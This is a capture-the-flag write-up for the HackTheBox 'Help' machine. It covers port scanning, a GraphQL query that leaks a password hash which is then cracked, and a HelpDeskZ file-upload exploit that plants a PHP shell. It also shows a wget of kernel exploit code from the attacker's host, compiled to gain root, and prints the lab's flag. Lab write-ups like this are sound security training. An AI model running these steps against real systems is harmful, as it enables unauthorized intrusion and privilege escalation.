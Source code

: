 ```yaml
---
title: "HackTheBox: Help Write Up!"
date: 2019-04-02
tags: [Hackthebox, ctf, writeup, Help]
excerpt: "HackTheBox: Help Write Up!"
header:
  image: "assets/images/hackthebox-images/help-banner.png"

---
```


# Enumeration:

## Nmap:

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 --max-retries 0 -o help-max.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:42 EST
Warning: 10.10.10.121 giving up on port because retransmission cap hit (0).
Nmap scan report for 10.10.10.121
Host is up (0.21s latency).
Not shown: 38798 filtered ports, 26735 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```console
root@HassanKhan:~# nmap -p- 10.10.10.121 -T4 -Pn -o help-all.nmap
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-21 14:43 EST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 2.40% done; ETC: 14:54 (0:10:52 remaining)
Warning: 10.10.10.121 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.121
Host is up (0.22s latency).
Not shown: 65525 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
3000/tcp  open     ppp
8095/tcp  filtered unknown
15523/tcp filtered unknown
17954/tcp filtered unknown
17965/tcp filtered unknown
43723/tcp filtered unknown
60785/tcp filtered unknown
62421/tcp filtered unknown
```

## Fetching credentials from graphql Port 3000:

Index page:

```console
root@HassanKhan:~# curl "http://10.10.10.121:3000/" && echo -e "\n"
{"message":"Hi Shiv, To get access please find the credentials with given query"}
```

I ran dirsearch and was able to find the endpoing query. After looking at the syntax of graphql that how it works, I was finally able to query the right syntax and was able to fetch credentials from that.

```console
root@HassanKhan:~# curl -s "http://10.10.10.121:3000/graphql?query=query%20%7B%20%0A%20%20user%7Busername:password%7D%0A%7D&variables=%7B%7D" | jq
{
  "data": {
    "user": {
      "username": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
Decrypt the md5 hash:

5d3c93182bb20f07b994a7f617e99cff : godhelpmeplz

Additionally, I have used extension that helped me to query the right syntax of graphql. That extension is “Altair Graphql Client”.

## Port 80:

Nikto scan:

```console
root@HassanKhan:~# nikto -h 10.10.10.121

Nikto v2.1.6/2.1.5
Target Host: 10.10.10.121
Target Port: 80
GET Server leaks inodes via ETags, header found with file /, fields: 0x2c37 0x57ff4a041d89c
GET The anti-clickjacking X-Frame-Options header is not present.
GET The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
GET The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
OPTIONS Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
OSVDB-3268: GET /admin/: Directory indexing found.
OSVDB-3092: GET /admin/: This might be interesting...
GET Cookie PHPSESSID created without the httponly flag
GET Cookie lang created without the httponly flag
OSVDB-3092: GET /support/: This might be interesting...
OSVDB-3233: GET /icons/README: Apache default file found.
```

Nothing interesting expect the /admin/ directories. Running dirsearch on port 80 brought /support/
 directory in front of me which was helpdeskz.

 Looking if there's any exploit available for the helpdeskz.

## Exploitation:

Searching for public exploits:

```console
root@HassanKhan:~# searchsploit helpdeskz
HelpDeskZ 1.0.2 - Unauthenticated Arbitrary File Upload
HelpDeskZ < 1.0.2 - Authenticated SQL Injection / Unauthorized File
```

 So we found 2 exploits so far. great! As, helpdeskz is open-source, we can check that how does file upload work.
 @ https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/view_tickets_controller.php

 To made the exploit work, I had to do some modifications in the exploit that were:
 + adjusting the time that is
 currentTime = int(time.time() + 7200) and
 + changing the loop
 for x in range(0, 500): // 500 all most 8 mins

You have to do modifications to the exploit code according to the difference between your time and the server response time. anyways, this could be done manually as well. Manual steps will be:

+ Uploaded php file splint3r7.php
+ Extracted the data header from response
+ converted the date header into seconds timestamp
@ https://www.epochconverter.com/
+ converted md5(filename.phptimestamp)
+ Found the shell on server with directory:
+ 10.10.10.121/support/uploads/tickets/md5string.php

Finally got the user flag!

## Privilege Escalation:

```console
$ uname -a
linux 4.4.0-116-generic
```

Exploit:
@ https://www.exploit-db.com/exploits/44298

```console
help@help:/tmp$ wget 10.10.14.49:1330/exploit1337.c
help@help:/tmp$ gcc exploit1337.c -o exploit1337h
gcc exploit1337.c -o exploit1337h
help@help:/tmp$ ./exploit1337h
./exploit1337h
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
cd /root/
ls -la
cat root.txt
b7fe6082dcdf0c1b1e02ab0d9daddb98
```

And we just owned the root ;)
